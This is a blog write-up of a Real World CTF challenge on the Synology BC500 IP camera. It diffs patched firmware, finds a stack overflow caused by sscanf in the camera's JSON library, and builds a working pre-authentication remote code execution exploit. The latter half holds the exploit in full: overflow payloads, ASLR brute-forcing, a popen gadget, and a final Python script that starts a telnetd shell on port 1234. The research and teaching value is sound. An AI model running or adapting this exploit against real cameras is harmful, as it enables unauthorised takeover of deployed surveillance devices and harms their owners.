---
weight: 1
title: "Synology BC500 RCE"
date: 2024-02-05T02:05:00+07:00
lastmod: 2023-02-05T02:05:00+07:00
draft: false
author: "ItayB"
authorLink: "https://itaybel.github.io"
description: "A full detailed research on the BC500 camera"

tags: ["pwn", "iot", "bof"]
categories: ["Writeups"]

lightgallery: true

toc:
  enable: true
---

Deep dive into an n-day in Synology BC500 camera. this was in the realworld ctf, and I found it really interesting.
<!--more-->

## Overview

In this post, I will write about my research on the BC500 camera. This was a challenge in the realworld ctf, which I hadn't enough time to really look into.
I wanted to upsolve it and write a blog, so here we are!

## Environment

We are given the `zImage`, which is the kernel. running `file zImage` reveals the camera's architecure is ARM.
We are also given the `player.cpio` file, and we can easily extract the fs with this command: `cpio -idv < player.cpio`.

Now we are ready to start the `run.sh` binary, which will open port 8080: 



Logging in, we can see the cameras version



Since it is a version from a few months ago, we can assume its an n-day, which was fixed.

Now we can just bindiff our binaries with the patched version, and see if there is any fix for the vulnerability.

## Extracting The Patched Firmware

Now this part was kind of annoying, so thanks to one of my teamates `fredd` for doing most of it.

We can find all the firmwares `.bin` files in synology original [archive](https://archive.synology.com/download/Firmware/Camera/BC500)

Then, we will download version `1.0.7-0298`, which is the next one after the vulnerable one.

Trying to run `binwalk -e Synology_BC500_1.0.7_0298.sa.bin`, I got tons extracted files, which are most likely false positives.

Searching through the files, I found `238C8C: UBI image, version 1`
The UBI init images contain the systemd initialization system, making them useful for building images in which you want to run systemd services, such as a web server or file server.

We can use a tool like [ubi_reader](https://github.com/onekey-sec/ubi_reader), to extract the firmware.

## Getting a Shell

To get a shell on the camera, we can extract the cpio file, and add a telnet listener to the `/init` file:
```
/bin/busybox telnetd -p 3333
```
Then we can change the run.sh file to forward the 3333 port:
```
#!/bin/sh
qemu-system-arm \
    -m 1024 \
    -M virt,highmem=off \
     -kernel zImage \
        -initrd player.cpio \
    -nic user,hostfwd=tcp:0.0.0.0:8080-:80,hostfwd=tcp:0.0.0.0:3333-:3333 \
     -nographic \
``` 

Running this and connecting to port 333 via telnet with username=root, gives us a shell:




## Static Analysis

We have everything we need. now its time for the actual bug searching process.

Lets start by seeing all the running processes on the machine:

```bash
> ps aux

PID   USER     TIME  COMMAND
    1 0         0:00 /bin/sh
    2 0         0:00 [kthreadd]
    3 0         0:00 [rcu_gp]
    4 0         0:00 [rcu_par_gp]
    5 0         0:00 [slub_flushwq]
    7 0         0:00 [kworker/0:0H-ev]
    8 0         0:00 [kworker/u2:0-ev]
    9 0         0:00 [mm_percpu_wq]
   10 0         0:00 [ksoftirqd/0]
   11 0         0:04 [rcu_sched]
   12 0         0:00 [migration/0]
   13 0         0:00 [cpuhp/0]
   14 0         0:00 [kdevtmpfs]
   15 0         0:00 [inet_frag_wq]
   16 0         0:00 [kworker/0:1-eve]
   17 0         0:00 [oom_reaper]
   18 0         0:00 [writeback]
   19 0         0:00 [kcompactd0]
   35 0         0:00 [kblockd]
   36 0         0:00 [ata_sff]
   37 0         0:00 [edac-poller]
   38 0         0:00 [devfreq_wq]
   39 0         0:00 [watchdogd]
   40 0         0:00 [kworker/u2:1-ev]
   41 0         0:00 [rpciod]
   42 0         0:00 [kworker/0:1H]
   43 0         0:00 [kworker/u3:0]
   44 0         0:00 [xprtiod]
   45 0         0:00 [kswapd0]
   47 0         0:00 [nfsiod]
   50 0         0:00 [mld]
   51 0         0:00 [ipv6_addrconf]
   52 0         0:00 [kworker/0:2-eve]
   64 0         0:34 systemd
   87 0         0:01 ntpdaemon
   95 0         0:01 syslogd -b 1 -s 200 -n -f /tmp/syslogd.conf
  120 0         0:07 /bin/webd
  164 0         0:00 wpa_supplicant -ieth0 -Dwired -c /tmp/wpa_supplicant-eth0.
  168 0         0:00 zcip -f eth0 /bin/zcipnotify
  174 0         0:00 dhcpcd: eth0 [ip4]
12515 0         0:00 ps aux
```

There is this `webd` binary, which does the heavy lifting of the http deamon.

I grabbed the webd binary from the vulnerable version, and from the patched version, and put it into bindiff.

Bindiff is a really cool tool which is used to help us find patched vulnerabilities, by showing us the difference between all the function.



We can see a really small difference , and going through the assembly, shows that its just constant values changes and features added, Nothing looked like a vuln fix.


Our next approach was looking at the cgis in the `/www/camera-cgi/` dictioary.

These binaries can be ran by going to `localhost:8080/camera-cgi/name`, so maybe the vulnerability is there. Bindiffing those binaries yields the exact same result as the `webd` binary. the vulnerability wasn't there.

Now, we have looked at most of our attacking surface, and found nothing. But lets not forget that the binaries are using libs, which can also be vulnarable.

```bash
/pwn/party/_player.cpio.extracted/cpio-root/bin$ readelf -a webd  | grep NEEDED
 0x00000001 (NEEDED)                     Shared library: [libev.so.4]
 0x00000001 (NEEDED)                     Shared library: [libpthread.so.0]
 0x00000001 (NEEDED)                     Shared library: [librt.so.1]
 0x00000001 (NEEDED)                     Shared library: [libdl.so.2]
 0x00000001 (NEEDED)                     Shared library: [libutil.so]
 0x00000001 (NEEDED)                     Shared library: [libjansson.so.4]
 0x00000001 (NEEDED)                     Shared library: [libcrypto.so.1.1]
 0x00000001 (NEEDED)                     Shared library: [libssl.so.1.1]
 0x00000001 (NEEDED)                     Shared library: [libavformat.so.58]
 0x00000001 (NEEDED)                     Shared library: [libavcodec.so.58]
 0x00000001 (NEEDED)                     Shared library: [libswscale.so.5]
 0x00000001 (NEEDED)                     Shared library: [libavutil.so.56]
 0x00000001 (NEEDED)                     Shared library: [libswresample.so.3]
 0x00000001 (NEEDED)                     Shared library: [libmp3lame.so.0]
 0x00000001 (NEEDED)                     Shared library: [libstdc++.so.6]
 0x00000001 (NEEDED)                     Shared library: [libm.so.6]
 0x00000001 (NEEDED)                     Shared library: [libgcc_s.so.1]
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x00000001 (NEEDED)                     Shared library: [ld-linux-armhf.so.3]
```

There are a few interesting so's , like `libjansson.so.4`, `libavformat.so.58`, `libswresample.so.3`, which looks like synology's own libs.

Running `readelf -s ../lib/libjansson.so.4` shows tons of json parsing functions. this is an interesting attacking surface, because parsing code is always buggy :)

Putting it in bindiff, shows TONS of differences in the code. I went through all the functions (it was pain), and saw something interesting:

Vulnerable Function:



Patched Version:



We can see that the `sscanf` function has been replaced with a new block of code, which uses other string operations, like strncpy.

Putting this is ida, confirms this is a bug fix:

```c
int __fastcall parse_json_object(_DWORD *a1, char a2, int a3)
{
  int v4; // r0
  char buf1[32]; // [sp+14h] [bp-40h] BYREF
  char buf2[12]; // [sp+34h] [bp-20h] BYREF
  size_t n; // [sp+40h] [bp-14h] BYREF
  int v12; // [sp+44h] [bp-10h]
  void *json_key; // [sp+48h] [bp-Ch]
  int json_obj; // [sp+4Ch] [bp-8h]

  json_obj = j_json_object();
  if ( !json_obj )
    return 0;
  sub_65F8((int)a1, a3);
  if ( a1[15] == 125 )
    return json_obj;
  while ( 1 )
  {
    if ( a1[15] != 256 )
    {
      sub_51F0(a3, a1, "string or '}' expected");
      goto LABEL_28;
    }
    json_key = (void *)sub_68D0(a1, &n);
    if ( !json_key )
      return 0;
    if ( memchr(json_key, 0, n) )
    {
      sub_7944(json_key);
      sub_51F0(a3, a1, "NUL byte in object key not supported");
      goto LABEL_28;
    }
    buf2[0] = 0;
    _isoc99_sscanf((char *)json_key, "%s %s", buf1, buf2);
  ...
```

both buf1 and buf2 are stack variables, the sscanf function leads to a buffer overflow when processing a JSON input.

## Triggering the Vulnrabillity

Now, we need to find a way to trigger the vulnrabillity in our Pre-Auth attacking surface, since we don't know the login creds.

We know that the webd binary is the one responsible handling all the web daemon in the camera. it forks itself and executes cgis, and other binaries when a request is made.

Playing a bit with the website reveals that requests are made to `/syno-api/*`. grepping this string in the webd binary, reveals all the exposed endpoints:

```bash
$ strings cpio_work/bin/webd | grep "/syno-api/*"
/syno-api
/syno-api/security/ip_filter/deny
/syno-api/security
...
```

Now, we found tons of potential endpoints to use the vulnarable function, but tons of them are not open to us without authentication.

To find all the pre-auth endpoints, I used a script my friend `@72ghoul` has created:

```py
import requests

endpoints = """
/syno-api/security/ip_filter/deny
/syno-api/security
/syno-api/security/encryption_key
/syno-api/recording/sd_card/speed_test
/syno-api/recording/sd_card/format
/syno-api/recording/sd_card/mount
/syno-api/recording/sd_card/unmount
/syno-api/recording/retrieve
/syno-api/recording/download
/syno-api/snapshot
/syno-api/maintenance/reboot
/syno-api/maintenance/firmware/upgrade
/syno-api/security/https/upload_cert
/syno-api/security/https/upload_key
/syno-api/maintenance/log/retrieve
/syno-api/maintenance/system/report
/syno-api/login
/syno-api/logout
/syno-api/session
/syno-api/stream_num
/syno-api/security/connection
/syno-api/manual/trigger/md
/syno-api/manual/trigger/td
/syno-api/manual/trigger/ad
/syno-api/manual/trigger/disconn
/syno-api/manual/trigger/ai
/syno-api/maintenance/reset
/syno-api/security/ca/upload_cert
/syno-api/security/ca/upload_key
/syno-api/camera_cap
/syno-api/security/info/language
/syno-api/security/info/mac
/syno-api/security/info/serial_number
/syno-api/activate
/syno-api/security/info
/syno-api/security/info/name
/syno-api/security/info/model
/syno-api/maintenance/firmware/version
/syno-api/security/network/dhcp
/syno-api/security/user
/syno-api/date_time
/syno-api/security/network""".split("\n")

url_base = 'http://localhost:8080'

def make_request(method, endpoint):
    url = url_base + endpoint
    data = "{hey:hey}"
    headers = {'Content-Type': 'application/json'}
    response = getattr(requests, method.lower())(url, headers=headers, data=data)
    return response.status_code
    
for endpoint in endpoints:
    status_code_get = make_request("GET", endpoint)
    status_code_put = make_request("PUT", endpoint)
    status_code_post = make_request("POST", endpoint)
    status_code_delete = make_request("DELETE", endpoint)

    if status_code_get != 403 and status_code_get != 404 and status_code_get != 401:
        print("GET : "  + endpoint + "  " + str(status_code_get))
    if status_code_post != 403 and status_code_post != 404 and status_code_post != 401:
        print("POST : "  + endpoint + "  " + str(status_code_post))
    if status_code_put != 403 and status_code_put != 404 and status_code_put != 401:
        print("PUT : "  + endpoint + "  " + str(status_code_put))
    if status_code_delete != 403 and status_code_delete != 404 and status_code_delete != 401:
        print("DELETE : "  + endpoint + "  " + str(status_code_delete))

```
Running this script, reveals multiple endpoints, such as `/syno-api/security/info/language`, `/syno-api/security/info/mac`, `/syno-api/security/info/serial_number`.

they are all accesiable via the `PUT` http method, which means we can also provide a json data to the request.

We know that the vulnrabillity is in our `parse_json_object` function (thats a name I gave it), which is an internal function in the library. looking at calls to this function , reveals that the `json_loads` function is the one calling it. it is an exposed symbol and not an internal one, so it can be called from other binaries directly.

## Debugging the webd Binary

To debug the webd binary , we can download gdbserver from [here](https://github.com/hacksysteam/gdb-cross-compiler/releases/download/14.1/gdbserver-arm-linux-gnueabi.zip) 

Then , we can download the binary into the filesystem, and compress it back to a `player.cpio` file.
We also need to forward another port for the gdbserver to use in the run.sh file:
```bash
#!/bin/sh
qemu-system-arm \
    -m 1024 \
    -M virt,highmem=off \
     -kernel zImage \
        -initrd player.cpio \
    -nic user,hostfwd=tcp:0.0.0.0:8080-:80,hostfwd=tcp:0.0.0.0:3333-:3333,hostfwd=tcp:0.0.0.0:1234-:1234 \
     -nographic \

```

Inside our shell we can run `/gdbserver localhost:1234 --attach $(pgrep webd)`. to start listening for gdb connections in port 1234, and in another shell we can start `gdb-multiarch` with the command `target remote localhost:1234`
## Exploitation

Now, after we found the vulnrabillity, we need to find a way to trigger and exploit it.


Also, the bof is inside the `sscanf` function. since `%s` has been passed to it, it will write a string to our limited size buffer.

This means we can't write nullbytes at all. This is not really an issue, since the binary is 32bit, all addresses will be 4bytes long, without any proceeding null bytes.

Now, what should we jump to?

Firstly, we need to check how strong the ASLR is in the system. since this is an IOT device we can guess that it might be pretty weak.

We can test it in our machine, by running `webd & head -n1 /proc/$(pgrep webd)/maps && pkill -9 webd` multiple times. this will show the base address of the `webd` binary in the virtual address space.

Here is the result of this command ran multiple times:

```bash
> webd & head -n1 /proc/$(pgrep webd)/maps && pkill -9 webd
...
00480000-0052e000 r-xp 00000000 00:02 976        /bin/webd
...
> webd & head -n1 /proc/$(pgrep webd)/maps && pkill -9 webd
...
00440000-004ee000 r-xp 00000000 00:02 976        /bin/webd
...
> webd & head -n1 /proc/$(pgrep webd)/maps && pkill -9 webd
...
00450000-004fe000 r-xp 00000000 00:02 976        /bin/webd
```

We can see that its really weak, and guessable, since only the the fifth nibble is changing.

We can run our exploit with a different "guess" each time, and we are gonna guess correctly 1/16 times. 

Also, the heap is right after the binary's bss, so we can also know the address of it.

Going to `/syno-api/security/info/language`, after running these commands in GDB:
```
set follow-fork-mode parent
catch fork
c
```

Reveals that the `webd` binary forks itself, and executes the `synocam_param.cgi` binary.

To debug the `synocam_param.cgi` after the fork, we can run this series of commands:

```bash
set follow-fork-mode parent
catch fork
c
(go to /syno-api/security/info/language)
set follow-fork-mode child
catch exec
c
```

Now, we can see that the vulnarable `json_loads` function gets called with our input, by placing a breakpoint at its PLT trampoline:





We know that the crash is in this line:
```c
_isoc99_sscanf((char *)json_key, "%s %s", buf1, buf2);
```

So, we can try a payload like: {"AAAAAA...A BBBB"} to trigger the vulnerability. 

Here is what I sent:

```py
  payload = '{"' + "A" * 0xb0 + " " + "B" * 0xb0 + '": "BBBB"}'
  r = requests.post(f"{HOST}/syno-api/security/info/language", headers={'Content-Type':'application/json'}, data=payload)
```
Sending this results in a crash!



This crash looks kinda weird, because we didn't overwrote the return pointer and just crash because of some weird pointer dereference (we can control it). 

It crashes here:



which is called here:



The call to this function is right after the scanf:



So probably our buffer overflow overwrites this ptr, which then gets passed as a parameter to the `sub_65f8` function.

After the call to the `sub_9F60` function, this function will call the `call_ptr_jmp` function, with the params we choose.

Here is what it does:



We can see that it takes our parameter, dereferences it, and calls it! this way we can change PC to whatever we want!

it also calls it with a parameter we can choose!

Placing a breakpoint at the call to the `call_ptr` function, reveals that the pointer passed to it is exactly 0x84 bytes after our second string. (the one after the space).

here is the call of the function:
`v8 = (*(int (__fastcall **)(_DWORD))a1)(*(_DWORD *)(a1 + 4));`

a1 points to our input after 0x84 bytes, so we can set it to any value we want.

Then, after that pointer there will be a pointer to the parameter of that function.

Lets check that our. I sent this following json object:

```py
  payload = b'{"' + b"A" * 8 +  b" " + b"B" * (0x84) + b"I" * 4 + b"J" * 4 + b'": "BBBB"}'
  print(payload)
  r = requests.post(f"{HOST}/syno-api/security/info/language", headers={'Content-Type':'application/json'}, data=payload)
```

And we can see a really promising crash:



We can control r0, which is the parameter to the function, and PC.

Now, please notice that since ASLR is enabled, we can only jump to gadgets inside the `synocam_param.cgi` binary. lucily for us, there is already interseting function there, like `popen`, which we can jump to.

One problem though is that all addresses in the binary itself will be just 3 bytes.

Since the overflow has occured with the sscanf function, when reading nullbyte it will stop, and won't continue writing the remaining of our buffer, which is the pointer to the function.

How can we overcome this?

Lets not forget that the sscanf function overflows two strings!

```c
int __fastcall parse_json_object(_DWORD *a1, char a2, int a3)
{
  int v4; // r0
  char buf1[32]; // [sp+14h] [bp-40h] BYREF
  char buf2[12]; // [sp+34h] [bp-20h] BYREF

  ...

  _isoc99_sscanf((char *)json_key, "%s %s", buf1, buf2);

  ...
}
```
We can do a really clever trick. 

With the first overflow into buf1, we can overwrite the second pointer, the function parameter. we can write `0x84 + 0x20 + 4` bytes to reach it.

Then, we the second overflow on the `buf2` buffer, we can write just `0x84` bytes to overwrite the function pointer.

It will be something like this:

```py
  payload = b'{"' + b"A" * (0x84 + 0x20 + 4) + b'PPPP' +  b" " + b"B" * (0x84) + b"I" * 4 + b'": "BBBB"}'
  print(payload)
  r = requests.post(f"{HOST}/syno-api/security/info/language", headers={'Content-Type':'application/json'}, data=payload)
```

With this approach, the function pointer can have a nullbyte at the end, without doing anything to the second pointer!

Now, we need to set the function parameter pointer to a place we control. 
90
As stated earlier, the heap is of constant offset from the end of the bss, meaning we know its address. 

We can add the function parameter to the end of our json data, then it will be written to the heap, and we can set a pointer to it.

It will be best to test this dynamiclly. 

I added tons of O's to my payload with this line of code:

`payload += b'\x00' + b'O' * 0x500`

Then I put a breakpoint on the `blx    r3` instruction, and saw that the O's start at `0x4be698`. this is 0x5698 bytes after the start of the heap (second nibble will change each run, but doesn't really matter)

We can't really put our address to point to it, since the second byte (0xe6) isn't an ascii character. when parsing the json, the library excepts only ascii characters and stop reading when it finds a non-ascii character. To overcome this, we can pad our input with 0x4090 bytes, which will make it `0x4c2728`. this is fully an ascii string, and we can use it in our exploit.

I ran this little test, which will confirm that for each possible base address, our address will be ascii only:



Now, we would want to call to system, popen, or something similar. 

We can see that popen is indeed called in the `synocam_param.cgi` binary, so we can use its PLT trampoline gadget to jump to it aswell. 

Looking at it in IDA, reveals that its offset from the base address is `0x711c`.

This is not good to us, because the `0x1c` byte isn't ascii.

Then , I searched for gadgets which call this function, and found a call to it at `0x14d70`. 

The 2 least signifant bytes are both ascii, so we are good to go!

We will jump a few instructions before  that, because we need to set the second parameter to "r".
```asm
.text:00014D5C                 MOV             R2, R0
.text:00014D60                 LDR             R3, =(aR_0 - 0x14D6C) ; "r"
.text:00014D64                 ADD             R3, PC, R3 ; "r"
.text:00014D68                 MOV             R1, R3  ; modes
.text:00014D6C                 MOV             R0, R2  ; command
.text:00014D70                 BL              popen
```
Jumping to 00014D5C is perfect for us, since it will use R0 as the param to the function, and put "r" as the second parameter.

Testing everything in GDB reveals that our heap offset can be off by a bit each run, due to stuff allocated in the background. We can overcome this issue, by setting our 0x4090 padding to be `/`, and then when landing on any address in the padding, the command will still be valid, then we can increase the padding size to whatever want, I added 0x200 more.

Here is the final exploit:

```py
#!/usr/bin/env python3

import requests
from pwn import *
import sys

CAMERA_URL = ""

    

def main():
    global CAMERA_URL

    if len(sys.argv) == 1:
        CAMERA_URL = 'http://127.0.0.1:8080'
    else:
        CAMERA_URL = sys.argv[2]

    log.info(f"Starting exploit on {CAMERA_URL}")

    base_address = 0x400000 #we will guess that its 0x400000. it will be correct 1/16 of the times
    heap_offset = 0xb9000
    
    cmd_ptr = base_address + heap_offset + 0x5698 + 0x4090
    popen_call = base_address + 0x14D60

    payload = b'{"' + b"A" * (0x84 + 0x20 + 4) + p32(cmd_ptr)[:-1] +  b" " + b"B" * (0x84) + p32(popen_call)[:-1] + b'": "BBBB"}'
    payload += b'\x00' + b'/' * 0x5290 + b'/bin/busybox telnetd -p 1234\x00'

    for i in range(0x100):
        try:
            print(f'Tried {i} times')
            r = requests.post(f"{CAMERA_URL}/syno-api/security/info/language", headers={'Content-Type':'application/json'}, data=payload, timeout=1)
        except Exception as e:
            print(e)
            pass


if __name__ == "__main__":
    main()

```

We executed the `telnetd` binary, to open a reverse shell on port 1234.
Running this reveals that we indeed got a shell!

